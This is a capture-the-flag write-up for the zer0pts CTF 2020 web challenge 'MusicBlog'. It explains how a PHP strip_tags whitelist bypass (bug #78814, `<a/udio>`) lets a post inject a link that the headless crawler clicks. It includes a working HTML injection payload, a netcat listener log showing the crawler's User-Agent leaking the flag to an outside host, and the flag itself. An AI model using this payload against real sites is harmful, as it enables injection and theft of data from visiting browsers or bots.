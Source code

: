 # [zer0pts CTF 2020] MusicBlog
###### tags: `zer0pts CTF`, `zer0pts CTF 2020`, `web`

## Solution
We're given source codes for database, app, and crawler. The location of flag can easily be found in `worker/worker.js`.

```javascript=
// (snipped)

const flag = 'zer0pts{<censored>}';

// (snipped)

const crawl = async (url) => {
    console.log(`[+] Query! (${url})`);
    const page = await browser.newPage();
    try {
        await page.setUserAgent(flag);
        await page.goto(url, {
            waitUntil: 'networkidle0',
            timeout: 10 * 1000,
        });
        await page.click('#like');
    } catch (err){
        console.log(err);
    }
    await page.close();
    console.log(`[+] Done! (${url})`)
};

// (snipped)
```

The flag is in `User-Agent` header. This means that you can get the flag if the crawler accesses websites you own. But how?

Hack the URL where the crawler accesses? As you can see from `new_post.php`, you can't.

```php=37
  if ($publish) {
    try {
      $redis = new Redis();
      $redis->connect("redis", 6379);
      $redis->rPush("query", $id);
    } catch (Exception $e) {
      print($e);
      exit(0);
    }
  }
```

XSS? As you can see from `post.php`, it seems that you can't use HTML tags other than `<audio>`.

```php=73
// post.php
          <div class="mt-3">
            <?= render_tags($post['content']) ?>
          </div>
```

```php=1
// util.php
// [[URL]] → <audio src="URL"></audio>
function render_tags($str) {
  $str = preg_replace('/\[\[(.+?)\]\]/', '<audio controls src="\\1"></audio>', $str);
  $str = strip_tags($str, '<audio>'); // only allows `<audio>`
  return $str;
}
```

But you can. As you can see from `Dockerfile` in `web`, the web server uses PHP 7.4.0. The latest version of PHP is now PHP 7.4.3, so it seems a bit old. Let's read [changelog of 7.4.0 → 7.4.1](https://www.php.net/ChangeLog-7.php#7.4.1).

> - Standard:
>   - Fixed bug #78814 (strip_tags allows / in tag name => whitelist bypass).

This app uses `strip_tags` for remove tags other than `<audio>`. Let's dig the [bug](https://bugs.php.net/bug.php?id=78814).

> **Bug #78814	strip_tags allows / in tag name, allowing whitelist bypass in browsers**
> 
> When strip_tags is used with a whitelist of tags, php allows slashes ("/") that occur inside the name of a whitelisted tag and copies them to the result.
> 
> For example, if &lt;strong&gt; is whitelisted, then a tag &lt;s/trong&gt; is also kept.

This means that in the app's case, `strip_tags` allows `<a/udio>`, which is interpreted as `<a>`.

So, with a payload like `[["></audio><a/udio href="(URL)" id="like">test</a/udio><audio a="]]`, you can bring the crawler to any URL.

```
$ nc -lvp 8000
Listening on [0.0.0.0] (family 0, port 8000)
Connection from ec2-3-112-201-75.ap-northeast-1.compute.amazonaws.com 33926 received!
GET / HTTP/1.1
︙
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: zer0pts{M4sh1m4fr3sh!!}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
︙
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```